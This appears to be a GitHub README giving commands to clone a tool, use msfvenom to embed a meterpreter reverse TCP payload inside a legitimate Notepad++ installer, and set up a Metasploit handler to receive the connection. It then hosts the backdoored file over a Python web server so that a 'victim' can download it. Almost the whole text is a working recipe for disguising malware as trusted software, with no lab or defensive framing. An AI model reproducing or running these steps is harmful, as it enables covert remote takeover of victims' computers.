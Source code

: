 # 👉Create Basic Backdoor & Combine Payload with Legitimate EXE for reverse TCP connection 🔐✔
```
sudo git clone https://github.com/PushMeUp97/CombinePayloadwithLegitimateEXE.git
sudo chmod 777 CombinePayloadwithLegitimateEXE
cd CombinePayloadwithLegitimateEXE
```
# Create simple backdoor using msfvenom
```
sudo msfvenom -p windows/meterpreter/reverse_tcp LHOST=<YOUR HOST IP> LPORT=<YOUR HOST PORT> -x npp.8.7.4.Installer.x64.exe -f exe -o Payload_Legit.exe
```
# Configure the Mmlti-handler to catch the reverse connection:

```
msfconsole
```
```use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <YOUR HOST IP>
set LPORT=<YOUR HOST PORT>
show options
exploit
```
# Hosting Service the current directory to allow victim to download software
```
python3 -m http.server 8000
